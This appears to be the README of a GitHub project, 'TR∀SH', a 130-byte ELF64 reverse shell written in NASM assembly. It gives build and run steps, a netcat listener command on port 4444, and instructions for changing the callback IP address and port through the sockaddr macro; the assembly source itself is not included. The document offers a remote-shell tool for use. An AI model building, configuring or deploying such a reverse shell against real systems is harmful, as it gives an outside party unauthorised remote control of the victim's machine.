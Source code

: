 # TR∀SH

**T**iny (130 bytes, ELF64) **R**e**V**erse **SH**ell.

Tested on Linux 6.5.0.

## Usage

Configure (see below) and build with [NASM](https://www.nasm.us/) using the included Makefile:

    $ make

Start netcat listener:

    $ nc -nvlp 4444 127.0.0.1

Connect reverse shell:

    $ ./trvsh

## Configuration

To change IP & port adjust the values passed to the `sockaddr` macro. For
example, to use `192.168.0.1` with port `1337` use:

```nasm
sockaddr: dq sockaddr(192, 168, 0, 1, 1337, 2)
```

The 2 here is the address family, in this case `AF_INET`.
